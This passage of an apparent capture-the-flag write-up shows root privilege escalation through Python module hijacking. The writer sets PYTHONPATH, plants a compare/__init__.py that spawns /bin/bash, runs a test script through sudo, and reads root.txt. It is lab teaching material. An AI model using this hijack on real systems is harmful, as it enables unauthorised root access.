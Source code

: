 I start by setting the PYTHONPATH variable to point to another directory. Any directory will work I just need write permissions to create a folder and a file in the folder. I decide to use the home directory of wes:

```bash
$ export PYTHONPATH=/home/wes
```

Then I create a folder called compare with a file called __init__.py in the /home/wes directory:

```bash
$ cd /home/wes
$ mkdir compare
$ touch compare/__init__.py
```

This is how one way modules work in python. In this case, there is a folder that is the name of the module and then inside the folder the __init__.py (notice the double underscores) file is the entry point of the module.

I put the following text in the __init__.py file that was just created:

```python
import os
os.system('/bin/bash')


def Str(a, b, c):
    return False
```

The Str function is there because that is what the test_module.py is calling. It won't actually hit that code before I have a root shell but I included it to help understand where the module hijacking it taking place.

I run the command and get a root shell:

```bash
$ sudo /usr/bin/python3 /opt/development/test_module.py
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root.

I run the following to get the root.txt flag:

```bash
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
REDACTED

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```
